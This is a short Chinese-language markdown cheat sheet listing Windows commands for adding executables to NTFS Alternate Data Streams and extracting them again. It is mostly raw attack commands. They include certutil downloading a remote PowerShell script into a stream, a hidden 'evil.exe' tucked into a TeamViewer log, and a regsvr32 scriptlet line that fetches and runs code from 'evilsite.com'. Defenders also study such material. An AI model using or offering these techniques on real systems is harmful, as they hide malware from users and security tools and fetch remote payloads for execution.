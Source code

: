 </br>

![2](NTFS_26.jpg)   
</br>

![2](NTFS_27.jpg)   

# **ADS 添加 导出 执行方法清单**
参考:[从ADS中执行程序的方法汇总](https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f)
```
###Add content to ADS###
type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"
extrac32 C:\ADS\procexp.cab c:\ADS\file.txt:procexp.exe
findstr /V /L W3AllLov3DonaldTrump c:\ADS\procexp.exe > c:\ADS\file.txt:procexp.exe
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt
makecab c:\ADS\autoruns.exe c:\ADS\cabtest.txt:autoruns.cab
print /D:c:\ads\file.txt:autoruns.exe c:\ads\Autoruns.exe
reg export HKLM\SOFTWARE\Microsoft\Evilreg c:\ads\file.txt:evilreg.reg
regedit /E c:\ads\file.txt:regfile.reg HKEY_CURRENT_USER\MyCustomRegKey
expand \\webdav\folder\file.bat c:\ADS\file.txt:file.bat
esentutl.exe /y C:\ADS\autoruns.exe /d c:\ADS\file.txt:autoruns.exe /o
powershell -command " & {(Get-Content C:\ADS\file.exe -Raw | Set-Content C:\ADS\file.txt -Stream file.exe)}"
curl file://c:/temp/autoruns.exe --output c:\temp\textfile1.txt:auto.exe
cmd.exe /c echo regsvr32.exe ^/s ^/u ^/i:https://evilsite.com/RegSvr32.sct   ^scrobj.dll > fakefile.doc:reg32.bat

###Extract content from ADS###
expand c:\ads\file.txt:test.exe c:\temp\evil.exe
esentutl.exe /Y C:\temp\file.txt:test.exe /d c:\temp\evil.exe /o
```